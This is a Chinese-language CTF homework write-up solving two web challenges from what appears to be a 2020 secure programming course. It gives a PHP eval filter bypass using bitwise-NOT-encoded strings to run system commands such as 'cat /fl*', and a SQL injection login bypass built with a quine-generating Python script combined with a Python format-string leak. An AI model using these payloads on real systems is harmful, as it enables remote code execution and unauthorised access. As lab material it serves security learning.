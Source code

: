 ```yaml
---
tags: 2020 程式安全
---
```

# HW5
## (#°д°)
### 題目分析
* 題目直接給出source code
* 只要輸入(#°д°)的內容長度小於0x20然後通過regular expression的檢查就會送進去eval裡面執行
### 漏洞
* eval()可以執行系統的指令所以只要能夠構造出適當的payload就能夠做到RCE
### Exploit
* 如果要用php執行linux的系統指令就要用echo\`id\`或是system()然後把要執行的指令當作參數
* 因為php可以把變數拿來當作function執行所以只要讓某個變數\$a=system就可以用\$a(指令)來執行系統指令
* 再來因為有對輸入的內容做檢查輸入的內容不能是英文 數字或者重音符號才會把輸入的內容送到eval執行但是因為php可以對字串做運算所以就可以利用+ - ^等運算來構造出原本想要執行的內容並且能過通過regular expression的檢查
* 一開始先構造出`$_=system;$_(ls /);`這樣送到eval就能夠執行ls把/底下的檔案都列出來
* 然後把`system`和`ls /`用`~`取反這樣`system`會變成`%8C%86%8C%8B%9A%92`而`ls /`就會變成`%93%8C%DF%D0`之後再取反一次就能恢復成`system`和`ls /`
* system(ls /)
```=
https://php.splitline.tw/?(%23%C2%B0%D0%B4%C2%B0)=$_=~%8C%86%8C%8B%9A%92;$_(~%93%8C%DF%D0);
```
* 這樣就列出/底下的檔案了會發現有個flag_GV99N6HuFj1kpkV45Dp7A6Usk5s5nLUY的檔案
![](https://i.imgur.com/ehU5lYy.png)
* 再來用system(cat /fl\*)他就會把/底下fl開頭的檔案給讀出來就能拿到flag了
* system(cat /fl*)
```=
https://php.splitline.tw/?(%23%C2%B0%D0%B4%C2%B0)=$_=~%8C%86%8C%8B%9A%92;$_(~%9C%9E%8B%DF%D0%99%93%D5);
```
>FLAG{peeHpeeeeee(#°д°)!}
## VISUAL BASIC 2077
### 題目分析
* 題目給出了source code是使用flask框架的網頁
* 如果session的is_admin是true登入之後就能拿到flag
### 漏洞
* 題目存在SQL injection的漏洞
* 存在format string注入的漏洞
### Exploit
* 輸入帳號密碼的地方有SQL injection的漏洞但是會檢查從資料庫裡撈出來的帳號跟密碼和輸入的是不是相同的
* 如果使用union select fetchone()會撈到union select的那筆資料所以只要構造出輸入的內容跟經過sql語法處理後會還是相同結果就能夠通過帳號部分的檢查密碼因為是用union select自己構造的就可以任意輸入
* 這種輸入的內容會跟輸出的內容完全相同叫做quine
* 所以就可以寫個腳本來產生sql的quine
```python=
def quine(data, debug=True):
    data = data.replace('$$',"REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = data.replace('$$','"$"').replace("'",'"')
    data = data.replace('$$',"'"+blob+"'")
    return data

input = '\' UNION SELECT $$ AS id,"abcd" AS pw--'
print(quine(input))
```
* 要成功登入鎖鑰產生的語法是`' UNION SELECT $$ AS id,"abcd" AS pw--`只要隨便用union select出一筆資料並且把密碼註解掉就能成功登入了
* 產生出來quine的語法是
```sql=
' UNION SELECT REPLACE(REPLACE('" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS id,"abcd" AS pw-- ',CHAR(34),CHAR(39)),CHAR(36),'" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS id,"abcd" AS pw-- ') AS id,'abcd' AS pw-- 
```
* 這樣產生出來的SQL語法就會是quine的樣子出來的東西會跟餵進資料庫的相同就會變成我們用sql injection產生的username然後密碼是union select設定的abcd所以這樣就能通過帳號跟密碼的檢查成功登入了
* 成功登入之後因為在歡迎的地方return是直接把username插進去所以就可以直接注入format string格式他就會被解析出來
```python=
return ("<h1>Hello, " + username + " ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} ").format(flag=flag)
```
* 所以就在裡面插入{flag.flag}這樣flag就會被解析出來
* 所以sql語法變成`' UNION SELECT $$ AS id,"abcd" AS pw-- {flag.flag}`
* 然後再用quine的腳本產生一次quine的sql語法最後就能成功拿到flag
```sql=
' UNION SELECT REPLACE(REPLACE('" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS id,"abcd" AS pw-- {flag.flag}',CHAR(34),CHAR(39)),CHAR(36),'" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS id,"abcd" AS pw-- {flag.flag}') AS id,'abcd' AS pw-- {flag.flag}
```
>FLAG{qu1n3_sq1_1nj3ct10nnn.\_\_init\_\_}